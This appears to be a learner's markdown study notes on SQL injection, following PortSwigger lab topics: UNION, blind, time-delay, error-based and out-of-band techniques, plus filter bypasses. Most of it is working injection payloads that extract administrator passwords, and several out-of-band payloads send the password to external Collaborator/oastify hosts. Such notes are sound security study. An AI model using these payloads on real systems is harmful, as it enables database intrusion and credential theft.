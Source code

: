 ```yaml
---
layout: blank
pagetitle: SQL Injection
---
```


Cheat sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

**What is SQL injection**
- Inserting into SQL queries (commonly SELECT, but sometimes others like UPDATE or INSERT)
- `https://insecure-website.com/products?category=Gifts` -> `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
  - Often easiest to figure out hte query by trying to fill out the rest of the query ourselves (so something like `Gifts'--` to get the same data)

**Places to look for SQL injection**
- Can be anywhere, really
- Look for places that would commonly interact with a database
  - Authentication, queries, tracking cookies, etc.
- With BlindSQLi, it can sometimes be pretty hard to tell (missing content can be indicative of simply incorrect values, not SQLi), so I suppose just pass every request through sqlmap
  - Use `*` to indicate where to inject
  - `sqlmap -u {endpoint} --cookie "{vulnerable_cookie}=*" --dbs`

**UNION attacks**
- `UNION` allows executing an additional `SELECT` query and appending results to the original
  - `SELECT a, b FROM table1 UNION SELECT c, d FROM table2` will return values from a and b in table1 and values c and d from table2
- UNION queries require:
  - Individual queries returning same number of columns
  - Data types in column must be compatible
- When commenting, make sure to try `--`, `#`, `-- //`, `# //`, etc.
- Determining column requirements
  - Can use `' ORDER BY 1--`, `' ORDER BY 2--`, and so on to see how many columns exist
  - Can also use `' UNION SELECT NULL, NULL, NULL, {etc}--` for the same purpose - `NULL` is convertible to every common data type
- Finding useful data types
  - String data is often useful, so finding it is important
  - `' UNION SELECT 'a', NULL, NULL, {etc}--` to find which columns allow strings
  - Can use these columns to retrieve interesting data, like usernames/passwords
- If we want to select multiple instances or 2nd/3rd instances from a database, use `LIMIT` to limit the number of results and `OFFSET` to offset which to select from the database
  - `' UNION SELECT username,password FROM users LIMIT 999 OFFSET 0--` would give enough space (999) and set the offset at 0, appending the entire table onto the result
  - Alternatively, we can concatenate the values together into a single column
    - Would look something like this for MySQL: `' UNION SELECT username || password FROM users--`

**Examining the Database**
- We want to find the type, version, table, and columns of the database
- Type/Version: 
  - Microsoft/MySQL: `SELECT @@version`
  - Oracle: `SELECT * FROM v$version`
    - - Every `SELECT` query in Oracle requires the `FROM` keyword - `DUAL` can be used as an always-valid table
      - `' UNION SELECT NULL FROM DUAL--`
    - Allows `--` or `#` for comments
  - PostgreSQL: `SELECT version()`
- Database contents:
  - `information_schema.tables` contains table information
    - Columns are usually like `TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE`
  - To see columns in tables, a query like `SELECT * FROM information_schema.columns WHERE table_name = 'Users'` does the trick
    - Tables have columns like the following: `TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE`

**Verbose Error Message SQL Injection**
- `CAST` is a useful tool for dumping column data in error messages
  - `CAST((SELECT example_column FROM example_table) AS int)` will yield something like `Invalid syntax: "{column_data} is not an integer"`
  - Example: `' AND 1=CAST((SELECT username FROM users LIMIT 1) as int)--` (check if 1 = integer of string data)

**Blind SQL Injection**
- Blind SQLi is when the neither database query NOR verbose error messages are present in the HTTP response 
- Can identify blind injection by getting normal results to appear with A SQL query `' AND '1'='1`
  - Not commented out since we want to confirm the query was injected and returned the same results 
  - Can sub `' AND '1'='2` to procure an error
- Error-based blind SQLi:
  - Do error-based character comparisons to figure out characters
  - Figuring out tables:
    - `' AND (SELECT 'a' FROM information_schema.columns WHERE table_name='users' LIMIT 1)='a` to see if there is a user table (a = a if users exists)
  - Figuring out table columns:
    - `' AND (SELECT 'a' FROM information_schema.columns WHERE table_name='users' AND column_name='username' LIMIT 1)='a` to see if there is a "username" column
  - Figuring out column content:
    - `' AND (SELECT 'a' FROM users WHERE username='administrator')='a` to see if there is an "administrator" user 
  - Figuring out conditional table content:
    - `' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a` to see if the first letter of the administrator's password is "a"
      - Change `(password,1,1)` to `(password,2,1)` to check the second character
      - Alternate: `' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
        - Might not work if strings can't be compared, but can allow a binary search
      - Can be `SUBSTR` with some databases - refer to cheat sheet
- Time delay SQLi
  - Sometimes, the app will handle error messages gracefully, meaning no difference in application response
  - Check for true/false boolean (depending on the database; cheat sheet has copy-paste):
    - `'; IF (1=2) WAITFOR DELAY '0:0:10'--`
    - `'; IF (1=1) WAITFOR DELAY '0:0:10'--`
  - Based on the condition, retrieve data one character at a time (again depending on database):
    - `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

**Error-based SQL Injection**
- Similar to response-based SQLi, where we can infer the result of the query based on an application error
- We'll often need to check whether or not we're injecting into a true or false boolean condition:
  - These are heavily database-dependent; be sure to use cheat sheet
  - `' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a` will evaluate to true
  - `' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a` will evaluate to false
- Based on the condition needed, we can use the following to exfiltrate characters
  - `' AND (SELECT CASE WHEN (username = 'administrator' AND SUBSTRING(password, 1, 1) = 'a') THEN 1/0 ELSE 'a' END FROM users)='a`
    - Also heavily dependent on database; for Oracle it would be something like `' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username='administrator'),1,1)='0') THEN 'a' ELSE TO_CHAR(1/0) END FROM dual)='a`
    - Can substitute with `> 'm'` if accepted by the database
  - Intruder can do this quite well with a cluster-bomb attack (iterate all payload combinations for all positions)

**OAST Techniques**
- Applications will sometimes handle the SQL query asynchronously
- Thus, we need to use some external service that can accept connections, like DNS, to confirm query execution 
  - Burp collaborator works well for this
    - Create a payload (by copying it to clipboard), then poll after sending the request
- Payload would look something like a lookup
  - `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`
- Payloads from cheat sheet require decent modification. Remember to try with `UNION`, `;`, etc.
  - Encode ` ` as `+`, `?` marks as `%3f`, `=` as `%3d`, `%` as `%25`, `:` as `%3a`, and `;` as `%3b`
- After confirming SQL injection, exfiltration would look something like:
  - `'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`
  - An encoded would look something like:
    - `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username='administrator')||'.wee8xnrdltcmbp86tyzupzx5lwrnff34.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`
  - Again, cheat sheet has examples

**Bypassing Defenses**
- If single quotes are totally blacklisted, a `\` as the first parameter can actually unlock an apostrophe to use as part of the second payload
- Backslashes can also be used for bypassing single quotes being replaced with double quotes
- For WAFs, if we can encode the data (HTML, XML), doing so can bypass basic WAFs

